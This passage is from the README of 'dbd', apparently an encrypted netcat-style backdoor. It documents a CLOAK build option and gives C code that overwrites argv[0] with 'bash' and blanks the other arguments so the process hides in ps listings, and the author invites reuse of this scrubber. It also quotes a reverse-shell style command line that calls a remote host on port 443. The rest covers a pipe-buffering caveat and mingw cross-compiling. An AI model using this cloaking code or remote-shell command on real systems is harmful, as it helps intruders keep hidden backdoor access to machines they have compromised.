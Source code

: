 ```c
#define CLOAK 1
```

NOTE: this currently only works on *nix compiles. Eventually I plan on adding Win32 process migration/hooking so those targets can feel some Romulan love as well.

For *nix environments, this option scrubs argv[0] and replaces it with the string "bash\0". It also scrubs all other argv[]'s (it'd look silly if ps returned "bash -e /bin/bash someremotehost.com 443" now wouldn't it?) I hope it goes without saying that you CANNOT USE THIS OPTION UNLESS YOU ARE HARD CODING YOUR VARIABLES INTO DBD.H. Also, if you're testing this on your own system it's gonna be fun picking the right pid to kill. ;)

Feel free to use this scrubber in anything you happen to be working on:

```c
//grab our named constant
int cloak = CLOAK;

//Engage cloaking device
if(cloak)
{
	#ifdef WIN32
	//stub              
	#else
	//change argv[0] to say bash       
	int scrub;
	strncpy((char *)argv[0], "\0", strlen((char *)argv[0]) + 1);
	strcpy((char *)argv[0], "bash\0");    
	for (scrub = 1; scrub < argc; scrub++)
	{                     
		 strncpy((char *)argv[scrub], "\0", strlen((char *)argv[scrub]) + 1);
	}                 
	#endif
}
```

###WARNING

Do not pass cached input (a file with commands or similar) to a listening "dbd -e" session. "dbd -e" is using pipes to pass data between the program being executed and dbd. Pipes are used (instead of plain pass-through duplicate file descriptors) because of encryption between the pipes and the socket. In order to prevent the writing end of one of the pipes from blocking the whole process, I turned it into a non-blocking descriptor. There is a chance that when passing too much input at a time through to the -e program, it will be truncated (cut off) since the pipe buffer (in the OS) can't hold all of the data. This problem can be solved by making dbd multi-threaded for instance, but I'll avoid this as long as possible for compatibility reasons.

##CROSS-COMPILING

Since dbd was designed to interoperate with other tools/frameworks, make now allows win32 cross compiling on Linux systems that have the mingw32-gcc toolchain.  These options are almost identical to their Windows-native counterpart with the addition of "-cross" after the chosen build.  Example:

	$ make mingw-cross

